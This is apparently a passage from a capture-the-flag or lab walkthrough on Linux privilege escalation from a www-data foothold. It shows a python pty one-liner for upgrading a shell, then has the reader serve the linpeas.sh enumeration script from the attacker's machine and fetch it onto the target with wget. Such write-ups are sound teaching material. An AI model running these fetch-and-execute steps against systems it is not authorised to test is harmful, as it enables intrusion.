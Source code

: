 Okay now we are in  but we are just on the **www-data** and we have to do **privilege escalation** 

Now we need to get a shell but how ?

You can check if they have python installed if thet have then we can generate a tty shell using a one liner code found online

check by typing :

```
which python

[It will return the python version if they have installed it]
```

Type this code to generate the tty shell to know more about it click [**here**](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)


```
python -c 'import pty; pty.spawn("/bin/bash")' 


This command is like telling Python to open a secret doorway (pty.spawn) into the /bin/sh shell. It's a quick way to upgrade a basic shell into something more interactive and user-friendly, like going from a tricycle to a sports car—still a ride, but way more fun!
```

Okay Now we got a shell back 

Open a new **Terminal** in Kali Linux 

we can use the script called **linpeas**.

```
linpeas.sh is a script used in cybersecurity to find potential vulnerabilities and misconfigurations on Linux systems. It's like a detective that quickly scans the system, looking for clues that could help an attacker gain more control or information.

This is for doing linux privilege escalation and if you were to go for windows privilege escalation you can search for winPeas 
```

We can try to send the **linpeas.sh**
First git clone the **"linpeas.sh"** script or  (Find the latest version) from [**here**]https://github.com/peass-ng/PEASS-ng/releases/tag/20240811-aea595a1 Download it manually :)

After downloading move the linpeas.sh file to your folder where you want to host it 

You can host up a webserver from your attacker machine using **python3**
(Check if **linpeas.sh** is present in your folder or not)
```
python3 -m http.server 80 
```
Okay now you have setup the server

Now go back to the tty shell download the file using **wget** 
## Usage
```
wget [http://URL/location]  [filename wou want to save as]

```
Like this
```
wget http://[your ip]/linpeas.sh linpeas.sh

```
Give **linpeas.sh** execution permission

